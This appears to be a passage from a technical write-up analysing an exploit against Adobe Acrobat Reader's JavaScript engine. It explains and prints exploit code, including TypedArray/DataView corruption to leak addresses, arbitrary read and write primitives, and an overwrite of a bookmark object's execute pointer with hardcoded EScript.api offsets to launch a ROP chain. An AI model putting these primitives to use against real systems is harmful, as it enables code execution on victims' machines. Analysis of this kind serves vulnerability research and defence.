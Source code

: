 ```
                    mypos = biga.getUint32(i2 + 4, true) - spraypos + 0x50;

                    // set its byte length to a stupid number also
                    mydv.setUint32(mypos - 0x10, 0x100000, true);

                    // leak the base of the myarray Array
                    myarraybase = mydv.getUint32(mypos, true);
```

<p class="cn" markdown="1">For the full read and write primitives, they overwrite the TypedArray pointer stored in the first element of the `arr` Array using (`mypos`) with the address they want to read/write from, do the read/write and then set the pointer to the TypedArray back to the base address.</p>

```
function myread(addr){
    mydv.setUint32(mypos, addr, true);
    var res = myarray[0];
    mydv.setUint32(mypos, myarraybase, true);
    return res;
}

function mywrite(addr, value){
    mydv.setUint32(mypos, addr, true);
    myarray[0] = value;
    mydv.setUint32(mypos, myarraybase, true);
}
```
<p class="cn" markdown="1">Naturally, they use some helper functions to use the new read/write primitive. At this point it's game over. They could have gone with a data only attack but there is no need since Acrobat Reader has no Control Flow Guard (CFG) so they opted for the traditional call gate control flow. First they located the EScript.api and got the dll base address, then they built a rop chain with a dll loader stub, stored it all in the `myarray` TypedArray overwrote the bookmark object's execute function pointer with the base address of `myarray` to finally redirect execution flow.</p>

```
var bkm = this.bookmarkRoot;        
var objescript = 0x23A59BA4 - 0x23800000 + dll_base;
objescript = myread(objescript);

...

mywrite(objescript, 0x6b707d06 - 0x6b640000 + dll_base); 
mywrite(objescript + 4, myarraybase);
mywrite(objescript + 0x598,0x6b68389f - 0x6b640000 + dll_base);

// adios!
bkm.execute();
```

### Conclusion
